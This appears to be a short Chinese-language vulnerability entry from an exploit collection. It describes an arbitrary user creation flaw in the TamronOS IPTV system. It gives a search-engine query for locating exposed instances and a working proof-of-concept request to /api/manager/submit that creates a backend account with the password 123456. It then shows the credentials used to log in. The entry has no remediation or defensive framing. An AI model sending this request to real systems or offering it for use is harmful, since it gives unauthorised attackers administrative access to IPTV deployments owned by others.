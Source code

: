 # TamronOS IPTV系统 submit 任意用户创建漏洞

## 漏洞描述

TamronOS IPTV系统 /api/manager/submit 存在任意用户创建漏洞，攻击者通过漏洞可以任意用户创建进入后台

## 漏洞影响

<a-checkbox checked>TamronOS IPTV系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="TamronOS-IPTV系统"</a-checkbox></br>

## 漏洞复现

登录页面如下

![img](../../../.vuepress/public/img/image-20210615145308242-20220313155156716.png)



漏洞POC为

```plain
/api/manager/submit?group=1&username=test&password=123456
```

![img](../../../.vuepress/public/img/image-20210615145547635.png)

```plain
user: test
pass: 123456
```

![img](../../../.vuepress/public/img/image-20210615145605871.png)